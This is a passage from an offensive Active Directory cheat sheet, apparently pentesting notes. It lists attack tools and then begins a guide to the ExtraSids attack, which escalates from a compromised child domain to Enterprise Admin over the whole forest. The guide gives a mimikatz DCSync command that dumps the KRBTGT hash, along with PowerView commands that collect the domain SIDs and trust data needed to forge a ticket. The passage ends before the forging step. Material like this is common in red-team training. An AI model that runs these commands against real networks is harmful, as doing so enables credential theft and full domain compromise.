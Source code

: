 
#### **Tools to Remember:**

- **PowerView** (for domain enumeration)
- **BloodHound** (for trust visualization)
- **Netdom** (for trust and DC queries)
- **Rubeus** (for Kerberos attacks)
- **Mimikatz / Pth** (for NTLM hashes)

---

Keep this handy, and you’ll be able to map out domain trust relationships and identify attack vectors quickly! 😎

#extrasids
### ExtraSids Attack Cheat Sheet

**Overview:**

- The **ExtraSids** attack allows for compromising a parent domain after a child domain is compromised. By exploiting the `sidHistory` attribute (which lacks SID Filtering), a user in a child domain with this attribute set to the parent domain’s **Enterprise Admins group** SID gains admin access to the entire forest.

### Prerequisites:

- **KRBTGT hash** for the child domain.
- **SID for the child domain**.
- **FQDN** of the child domain.
- **SID for the Enterprise Admins group** in the parent domain.
- **Target user** in the child domain (doesn't need to exist).

### Key Steps:

#### 1. **Gather Required Data**:

- **KRBTGT hash** (from DCSync attack):
    
    ```
    mimikatz> lsadump::dcsync /user:<domain>\krbtgt
    ```
    
- **Child Domain SID** (via PowerView or Mimikatz):
    
    ```
    Get-DomainSID
    ```
    
- **Enterprise Admins SID** (from PowerView or AD tools):
    
    ```
    Get-DomainGroup -Domain <parent-domain> -Identity "Enterprise Admins"
    ```
    
- **FQDN of the child domain**:
    
    ```
    Get-DomainTrust
    ```
    